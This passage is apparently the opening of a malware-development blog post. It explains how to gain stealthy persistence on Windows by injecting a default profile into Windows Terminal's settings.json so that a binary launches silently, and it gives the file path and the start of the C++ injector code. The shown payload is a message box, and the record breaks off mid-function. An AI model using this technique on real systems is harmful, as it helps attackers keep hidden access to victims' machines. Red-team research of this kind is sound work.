 In this post we'll explore a subtle but effective persistence technique on Windows using Windows Terminal profiles. Specifically, we'll inject a custom JSON snippet into `settings.json`, which Windows Terminal reads at startup. This allows us to define a new profile that silently launches a custom binary - in this case, as usual, `Meow-meow` messagebox.     

This is similar to one of my [earlier posts](/malware/2022/09/20/malware-pers-11.html)     

### main idea

Simple and effective way persistence by modifying:     

```python
%LOCALAPPDATA%\Packages\Microsoft.WindowsTerminal_8wekyb3d8bbwe\LocalState\settings.json
```

![malware](/assets/images/178/2025-09-21_09-52.png){:class="img-responsive"}    

We inject a new profile with a random `GUID` and set it as the default. When Windows Terminal launches, so does our payload.     

### practical example

Let's implement this logic. Just start from key parts of the source code.    

First of all, we need `file_existsA`, checks if the target file exists:    

```cpp
static int file_existsA(const char *path) {
  DWORD a = GetFileAttributesA(path);
  return (a != INVALID_FILE_ATTRIBUTES && !(a & FILE_ATTRIBUTE_DIRECTORY));
}
```

Simple wrapper around `GetFileAttributesA`.      

Then I used basic file I/O functions using ANSI APIs. They handle reading `UTF-8` text (with or without BOM) and writing it back:     

```cpp
static int read_file_utf8(const char *path, unsigned char **data, size_t *len, int *had_bom) {
  FILE *f = fopen(path, "rb");
  if (!f) return 0;
  fseek(f, 0, SEEK_END);
  long sz = ftell(f);
  if (sz < 0) { fclose(f); return 0; }
  fseek(f, 0, SEEK_SET);
  *data = (unsigned char*)malloc((size_t)sz + 1);
  if (!*data) { fclose(f); return 0; }
  if (fread(*data, 1, (size_t)sz, f) != (size_t)sz) { fclose(f); free(*data); return 0; }
  fclose(f);
  (*data)[sz] = 0;
  *len = (size_t)sz;
  *had_bom = 0;
  if (*len >= 3 && (*data)[0] == 0xEF && (*data)[1] == 0xBB && (*data)[2] == 0xBF) {
```